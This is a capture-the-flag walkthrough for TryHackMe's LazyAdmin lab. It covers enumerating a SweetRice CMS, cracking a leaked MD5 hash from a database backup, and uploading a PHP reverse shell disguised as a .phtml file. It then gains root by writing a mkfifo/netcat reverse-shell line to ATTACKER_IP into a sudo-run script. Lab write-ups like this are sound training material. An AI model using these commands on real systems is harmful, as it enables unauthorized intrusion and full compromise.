 # [LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Easy linux machine to practice your skills

### What is the user flag?

1. First, scan for open ports with `nmap` to identify available services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/5f1f2398-f32e-4adc-8fd9-4c3d3d1eca2a)

2. Enumerate directories on the web server using `gobuster` to discover hidden content
   - We've discovered a `/content` directory. The web application is running `SweetRice`, a Content Management System

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![SCREEN02](https://github.com/user-attachments/assets/5f23b76e-b310-472d-b8df-6cbd2481ec25)

3. Scan `/content` directory to find additional resources
   - This reveals two interesting directories: `/content/inc/mysql_backup/` and `/content/as/`

```bash
gobuster dir -u http://IP/content -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

4. Investigating the `/content/inc/mysql_backup/` directory in the browser, we discover a database backup file `mysql_bakup_20191129023059-1.5.1.sql`
   - There are credentials for manager: `manager:42f749ade7f9e195bf475f37a44cafcb`

```bash
grep "admin" mysql_bakup_20191129023059-1.5.1.sql
```

![SCREEN03](https://github.com/user-attachments/assets/9ab71195-8301-4afa-b155-a11f40fbfdc5)

5. Crack this MD5 hash using [CrackStation](https://crackstation.net/) and login to `http://IP/content/as/`

![SCREEN04](https://github.com/user-attachments/assets/c2d34ab0-73c1-406f-b3f2-e84335f69e59)

6. Create a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) and upload it to `http://IP/content/as/?type=media_center`. We need to change extension of the file (to `.phtml` for example) to bypass validation

![SCREEN05](https://github.com/user-attachments/assets/4b393023-4d3f-4cbc-9e1c-e21bfa55dd42)

7. Before triggering the shell (by clicking on the file), set up a netcat listener on our attack machine

8. Upgrade shell and get the user flag

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/itguy/user.txt
```

![SCREEN06](https://github.com/user-attachments/assets/a7c73266-a851-40bd-a870-746bc7c7792e)

---

### What is the root flag?

1. Check what sudo permissions we have

```bash
sudo -l
```

![SCREEN07](https://github.com/user-attachments/assets/030e1774-2e51-4efc-b271-018dde4f324f)

2. We can run `/usr/bin/perl` `/home/itguy/backup.pl` with sudo privileges

```bash
cat backup.pl
cat etc/copy.sh
```

![SCREEN08](https://github.com/user-attachments/assets/5cf67d08-5f7c-4f4e-b0b1-a63ab000aa1c)

3. Set another listener and replace the ip in `etc/copy.sh` script with our own and run it

```bash
nc -lvnp 5554
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 5554 > /tmp/f" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

![SCREEN09](https://github.com/user-attachments/assets/2a4e412d-fbce-4b15-aac2-35aabf9688d4)

4. Get the root flag

```bash
whoami
cat /root/root.txt
```

![SCREEN10](https://github.com/user-attachments/assets/70b0f7f9-f271-4bfd-a428-73f23c514f85)
